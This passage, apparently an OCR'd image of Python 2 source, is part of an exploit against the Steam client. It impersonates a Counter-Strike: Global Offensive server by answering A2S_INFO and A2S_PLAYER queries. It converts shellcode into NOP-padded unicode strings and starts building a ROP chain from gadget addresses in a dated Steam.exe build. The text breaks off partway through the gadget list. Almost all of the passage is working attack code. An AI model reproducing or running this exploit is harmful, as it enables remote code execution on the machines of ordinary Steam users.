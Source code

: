 ```python
    header = data[4]
    if header == "\x54":
        print("[*] Received A2S_INFO request")
        return "INFO"
    elif header == "\x55":
        print("[*] Received A2S_PLAYER request")
        return "PLAYER"
    else:
        print "Unknown request"
        return "UNKNOWN"


def createINFOReply():
    # A2S_INFO response
    # Retrieves information about the server including, but not limited to: its name, the map currently being played, and the number of players.
    pre = "\xFF\xFF\xFF\xFF"                         # Pre (4 bytes)
    header = "\x49"                                  # Header (1 byte)
    protocol = "\x02"                                # Protocol version (1 byte)
    name = "@Kernelpanic and @0xacb Server" + "\x00" # Server name (string)
    map_name = "de_dust2" + "\x00" # Map name (string)
    folder = "csgo" + "\x00" # Name of the folder contianing the game files (string)
    game = "Counter-Strike: Global Offensive" + "\x00" # Game name (string)
    ID = "\xda\x02" # Game ID (short)
    players = "\xFF" # Amount of players in the server (byte)
    maxplayers = "\xFF" # Max player allowed (byte)
    bots = "\x00" # Bots in game (byte)
    server_type = "d" # Server type, d = dedicate (byte)
    environment = "l" # Hosted on windows linux or mac, l is linux (byte)
    visibility = "\x00" # Password needed? (byte)
    VAC = "\x01" # VAC enabled? (byte)
    version = "1.3.6.7.1\x00"
    return pre + header + protocol + name + map_name + folder + game + ID + players + maxplayers + bots + server_type + environment + visibility + VAC + version


def to_unicode(addr):
    a = addr & 0xffff;
    b = addr >> 16;
    return eval('u"\\u%s\\u%s"' % (hex(a)[2:].zfill(4), hex(b)[2:].zfill(4)))


def convert_addr(gadget):
    return to_unicode(STEAM_BASE + gadget - 0x400000)


def convert_shellcode(code):
    code = code + "\x90"*8 #pad with nops
    output = ""
    l = textwrap.wrap(code.encode("hex"), 2)
    for i in range(0, len(l)-4, 4):
        output += "\\u%s%s\\u%s%s" % (l[i+1], l[i], l[i+3], l[i+2])
    return eval('u"%s"' % output)


def pwn():
    print("[*] Building ROP chain")

    # ROP gadgets for Steam.exe Nov 26 2018
    pop_eax = convert_addr(0x503ca7)
    pop_ecx = convert_addr(0x41bd9f)
    pop_edx = convert_addr(0x413a53)
    pop_ebx = convert_addr(0x40511c)
```
